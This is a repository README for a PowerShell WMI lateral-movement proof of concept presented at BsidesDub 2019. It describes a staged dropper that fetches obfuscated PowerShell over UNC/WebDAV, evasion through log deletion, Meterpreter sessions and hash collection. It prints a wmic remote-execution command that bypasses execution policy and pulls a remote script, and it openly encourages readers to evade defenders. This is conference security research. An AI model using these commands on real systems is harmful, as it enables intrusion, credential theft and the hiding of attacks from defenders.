 Fud WMI for lateral movement (PoC) - ##BsidesDub 2019## 
============

Author: kmkz - [@kmkz_security](https://twitter.com/kmkz_security)

## Intro

This repository contains the PowerShell WMI based Proof of Concept for advanced lateral movement as presented at BsidesDub 2019.

The main goal of this project was to demonstrate the possibilities an attacker might use to bypass detection mechanisms using many techniques in real-life condition.
It implement random class name derivation generation mechanism, payload obfuscation and EventViewer logs removal via WMI un-subscription.
Aditionaly, it use **WMI only** (no WinRM) and do not interact with registry keys to avoid registry monitoring based detection.

Of course, **feel free to reuse code parts for your own purpose in case of need to escape blue team or for simply test-it**.

## Details

   **Stage 1** (executed on attacker's side):
        The "stage 1" is a simple dropper for payload delivery through UNC/WebDAV using basic obfuscation (require admin. privs for RCE over WMI ofc).
	It is executed from attackers station (C2C) to run in-memory fud PowerShell without the well-known `IWR/IEX` method calls.

   [*] Notes:
        UNC/WebDAV could be replaced by WMI namespaces as presented in WmiSploit project `https://github.com/secabstraction/WmiSploit`.
        However, the executed command is then limited to 8190 chars due to `-EncodedCommand` usage for b64 payload, this is the reason why I prefered this method for the PoC.

        Note that .ps1 file is executed over WMI without `invoke-expression` (iex) nor `wget/invoke-webrequest` (iwr) method to prevent alerting.
        Classic stager from command line: 
	```
            wmic.exe /node:"Victime-PC" /user:WORKGROUP\admin process call create "PowErSheLl -eXecUtIonpOliCY BypAsS -NopRofilE -fILe \\Vboxsvr\shared\BSIDESIE\class-derivation.ps1"
	```

    
   **Stage 2** (executed on target):
         In-memory build stage 2 using "-File" parameter (obfuscated PowerShell with random Class Derivation).
	 Randomly generated class derivation and "EventViewer" logs removing for detection mechanisms/blue team evasion.
         Stage 1 execution is not removed from logs for demo purpose, it should be modified for a total discretion ;).


   [*] Notes:
        C2C shell could be used in combination to unicorn to obtains Meterpreter session (stage 2 could be modified depending on the use case):
        
        Examples: `powershell.exe -eXecUtIOnpOlICy BypAsS -File "\\Vboxsvr\shared\BSIDESIE\pwner.ps1"`

        IMPORTANT: Payload delivery using "-File" parameter also permit to add hashes collection when payload (stage 2) is triggered.

   **stage 3** (executed on target):
        Payload execution and output push/pull via a random file located on attacker's server.
	
## Demo

![](PoC-demo.gif)


## Thanks

- @philiptsukerman - WMI guru - https://github.com/Cybereason/Invoke-WMILM
- @arno0x0x - how to say that... its scripts helped me so often during post-exploitation steps... - https://github.com/Arno0x
- @mattifestation - a ton of useful research and publications
- @secabstraction - https://github.com/secabstraction/WmiSploit
- @all: 'cause we all need others to go further!
